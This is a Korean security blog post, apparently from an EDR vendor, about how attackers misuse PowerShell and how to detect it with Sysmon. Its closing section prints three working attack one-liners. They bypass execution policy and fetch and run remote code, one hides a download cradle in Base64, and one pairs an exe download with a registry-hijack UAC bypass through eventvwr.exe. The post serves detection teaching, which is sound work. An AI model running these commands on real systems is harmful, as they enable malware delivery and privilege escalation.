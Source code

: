 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: 
title: "PowerShell을 이용한 공격"
---
```


![2020-05-12](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

시스템 관리 및 자동화 등을 목적으로 설계된 명령줄 셸 및 스트립팅 언어입니다.<br>
Windows Vista 이후 기본 탑재되어 공격자의 도구로 많이 사용되고 있습니다.

### 1. 실행 정책 (Execution Policy)
기본적으로 Microsoft는 PowerShell 스크립트 실행을 제한합니다.<br>
그러나 공격자는 이를 쉽게 우회할 수 있습니다.<br>
> **우회 Flags**<br>
> -ExecutionPolicy/-EP Bypass<br>
> -ExecutionPolicy/-EP Unrestricted<br>
> -noprofile or -nop<br>
> *Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정한 Profile도 무시할 수 있습니다.

### 2. 다운로드
PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행합니다.
> 악의적인 PowerShell 스크립트 명령줄에서 자주 사용되는 명령입니다.<br>
> New-Object: .NET Framework의 인스턴스를 만듭니다.<br>
> System.Net.Webclient: 원격 리소스와의 데이터 송수신에 사용됩니다.<br>
> DownloadString: 원격지에서 IEX가 실행할 메모리 버퍼로 내용을 다운로드합니다<br>
> DownloadFile: 원격지에서 로컬 파일로 컨텐츠를 다운로드합니다.<br>
> IEX/Invoke-Expression: 로컬 컴퓨터에서 명령을 실행합니다.<br>
> ICM/Invoke-Command: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

### 3. 인코딩
- 인코딩은 PowerShell Commnad를 사용자 및 특정 로그에서 숨길 수 있는 한 가지 방법입니다.<br>
- Base64 인코딩을 사용한 경우 CommandLine의 길이가 길어집니다.<br>
- 인코딩 또한 우회되더라도, 장문의 명령어를 통해 불러온 PowerShell이라면 의심해볼 필요가 있습니다. ( > 500 is odd)

### 4. DLL
- 악의적인 행동을 탐지하려면, 의심스러운 calls의 조합을 찾아야 합니다.<br>
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 이러한 Dll이 호출되고 있는지 모니터링합니다.<br>
*sysmon id 7 (ImageLoaded)을 통해 확인 가능합니다.<br>
System.Management.Automation.Dll<br>
System.Management.Automation.ni.Dll<br>
System.Reflection.Dll

### 5. PLURA에서 PowerShell 악성 행위 탐지
*Sysmon 설치 필수
설치 방법: https://docs.plura.io/ko/agents/edr/windows/sysmon<br>
![ps-0-1](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

**악성 파일 실행**<br>
PowerShell 우회 및 공격자 서버로부터 파일 다운로드 행위 발생<br>
![ps-2-1](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**필터 탐지 > 호스트보안**<br>
PLURA에서는 이런 악의적인 공격을 Sysmon을 활용하여 필터 탐지하고 있습니다.

> **공격 명령어**<br>
> ```bash
> powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')<br>
>
> cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==<br>
>
> cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe

악성 PowerShell 스크립트는 주로 email 첨부 파일의 다운로더로 사용되거나 침입 후 원격 컴퓨터에서 코드를 실행할 수 있습니다.<br>
PowerShell 위협에 대처하려면 보다 정교한 탐지 방법과 지속적인 모니터링 등의 노력이 필요합니다.


## 참조
- https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf
- https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en
- https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651

## 관련 기사, 보안뉴스
- https://bit.ly/2V99SLF
